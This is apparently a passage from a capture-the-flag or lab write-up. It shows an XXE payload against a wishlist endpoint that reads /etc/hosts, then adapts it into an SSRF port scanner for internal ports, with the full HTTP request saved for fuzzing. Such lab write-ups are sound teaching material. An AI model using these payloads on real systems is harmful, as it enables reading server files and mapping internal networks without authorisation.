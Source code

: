 The first thing I did is taking the request used for LFI from XXE and modified it to make a port scanner for internal ports...

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

to:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "http://127.0.0.1:FUZZ/"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

Now I saved the whole request to a file to use it for scanning for a port.

**Full request for the port scanner**
```
POST /wishlist.php HTTP/1.1
Host: 10.10.191.67
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.191.67/product.php?id=1
Content-Type: application/xml
Content-Length: 204
Origin: http://10.10.191.67
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=ohusg1pv09frqrgkcgtagfrogp
Priority: u=0


<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "http://127.0.0.1:FUZZ/"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```
{: file='port_scanner.txt'}
